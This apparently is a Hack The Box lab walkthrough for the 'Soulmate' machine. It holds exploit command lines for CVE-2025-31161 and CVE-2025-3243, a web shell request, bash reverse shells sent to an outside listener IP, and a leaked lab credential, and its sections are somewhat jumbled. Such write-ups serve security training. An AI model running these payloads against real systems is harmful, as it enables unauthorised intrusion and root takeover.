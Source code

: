 # HTB-Soulmate

### ReconA

- Added hostnames:
    
    ```bash
    echo "10.129.229.162 soulmate.htb ftp.soulmate.htb" | sudo tee -a /etc/hosts
    
    ```
    
- Ran service enumeration:
    
    ```bash
    nmap -sVC soulmate.htb
    
    ```
    
    Found ports:
    
    - `22/tcp` → OpenSSH
    - `80/tcp` → nginx (web server)

---

### 2. Foothold – Webshell

- Found vulnerable vhost: `ftp.soulmate.htb` (CVE-2025-31161).

```bash
[root@Hacking] /home/kali/soulmate/CVE-2025-31161 (main)
❯ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user hyh --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: hyh
   [*] Password: admin123.
```

![image.png](assets/image.png)

Change password User ben and login to it

![image.png](assets/image%201.png)

Open webprod file and the shell.php

![image.png](assets/image%202.png)

- Verified execution:
    
    ```
    http://soulmate.htb/shell.php?cmd=id
    
    ```
    
    Output: `uid=33(www-data) gid=33(www-data)`
    
- Spawned reverse shell:
    
    ```bash
    rlwrap nc -lvnp 9001
    curl "http://soulmate.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.81/9001 0>&1'"
    
    ```
    

---

### 3. Privilege Escalation → ben

- Inside foothold, discovered Erlang script:
    
    ```bash
    cat /usr/local/lib/erlang_login/start.escript
    
    ```
    
- Key findings in script:
    - Runs **SSH daemon** on `127.0.0.1:2222`.
    - Accepts both password and publickey.
    - Hardcoded creds:
        
        ```
        ben : HouseH0ldings998
        
        ```
        
        Root
        
        ## . Local Recon
        
        **Step:**
        
        Run service enumeration on the compromised host:
        
        ```bash
        ss -tuln
        
        ```
        
        **Finding:**
        
        - Found a local service listening on `127.0.0.1:2222`.
        - Banner check with `nc` shows:
            
            ```
            SSH-2.0-Erlang/5.2.9
            
            ```
            
        
        **Why it matters:**
        
        This isn’t a standard OpenSSH server. It’s an Erlang-based SSH daemon (part of Erlang/OTP).
        
        Non-standard implementations often contain exploitable bugs.
        
        ---
        
        ## 2. Vulnerability Identification
        
        **Step:**
        
        Look up known issues in Erlang SSH.
        
        **Finding:**
        
        - Vulnerable to **CVE-2025-3243** – a pre-authentication remote code execution bug in Erlang SSH.
        - Allows attackers to send crafted SSH channel requests before auth to trigger code execution.
        
        **Why it matters:**
        
        Because the daemon is running **as root**, any successful exploit = instant root shell.
        
        ---
        
        ## 3. Exploit – CVE-2025-3243.py
        
        **Step:**
        
        Use the exploit script `CVE-2025-3243.py`.
        
        - Adapted the PoC to send a **reverse shell payload**:
        
        ```python
        payload = f'os:cmd("bash -c \\"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\\"").'
        
        ```
        
        **Explanation:**
        
        - The Erlang function `os:cmd/1` runs system commands.
        - We injected a reverse shell command into the SSH request.
        - When processed, it spawns a connection back to our listener with **root privileges**.
        
        ---
        
        ## 4. Execution
        
        **Step 1 – Listener:**
        
        ```bash
        rlwrap nc -lvnp 5555
        
        ```
        
        **Step 2 – Run exploit:**
        
        ```bash
        python3 CVE-2025-3243.py -lh 10.10.14.81 -lp 5555 -rh 127.0.0.1 -rp 2222
        
        ```
        
        **Why it works:**
        
        - The script simulates an SSH negotiation.
        - Instead of a normal exchange, it injects the Erlang RCE payload inside a **channel request**.
        - The Erlang SSH daemon doesn’t validate properly → payload executes directly.
        
        ---
